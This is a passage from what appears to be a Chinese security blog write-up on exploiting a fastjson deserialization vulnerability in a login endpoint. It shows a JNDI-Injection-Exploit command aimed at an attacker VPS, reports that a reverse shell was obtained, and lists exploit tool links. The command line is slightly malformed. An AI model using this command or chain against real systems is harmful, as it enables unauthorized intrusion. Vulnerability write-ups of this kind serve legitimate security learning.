 这里我们可以看到，burpsuit的fastjsonscan插件扫出改登录口存在fastjson漏洞，通过利用链可看出该fastjson版本在1.2.47左右,这里我们直接使用  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrQia5yMiaGRuWkL56cAs4l98MXfadveztmkca9IyLkooyB2eD40w9qkcw/640?wx_fmt=png "")  
  
             
  
然后可以使用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar这个工具生成JNDI链接的工具可以启动多个服务器来利用JNDI注入漏洞，然后打fastjson漏洞  
  
下载链接：  
https://github.com/welk1n/JNDI-Injection-Exploit  
、、  
```
java -jar https://github.com/welk1n/JNDI-Injection-Exploit -C '[command]ping dnslog.cn' -A vps_ip
```  
  
后面就是常规的步骤了，这里也是成功反弹shell了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWU4IQ6uV9g5IgiaM9LJD4RhrqICPicz1xdC06LyHwzJuickxZFyichgbS6DQ5RTS1yiayLialAlnFicwXpwQ/640?wx_fmt=png "")  
  
             
##   
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x7 总结**  
  
  
到这里呢这篇Fastjson漏洞相关的分享就结束了，这里祝愿师傅们多挖洞，多出洞！  
  
然后呢，下面就是文章中出现的一些文章链接，比如jdk1.8的安装教程包括vulnhub的一个安装，还有就是参考文章之类的，包括上面文字中介绍用到的工具之类的下载链接。  
  
JDK1.8安装详细教程：  
https://blog.csdn.net/m0_54899775/article/details/122420533  
  
安装vulnhub详细教程：  
https://blog.csdn.net/m0_54899775/article/details/122463532  
  
哔哩哔哩视频讲解：【fastjson反序列化漏洞演示加详细讲解加原理】   
https://www.bilibili.com/video/BV1Ab4y1d7w1/?share_source=copy_web&vd_source=268f8d699ac32cf11e9bdc248399c5bd  
  
参考文章：  
  
https://github.com/bit4woo/code2sec.com  
  
https://xz.aliyun.com/t/14872  
  
burpsuit插件及工具下载：  
  
https://github.com/pmiaowu/BurpFastJsonScan  
  
https://github.com/Maskhe/FastjsonScan?tab=readme-ov-file  
  
https://github.com/welk1n/JNDI-Injection-Exploit  
  
**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担。**  
  
             
  
   
  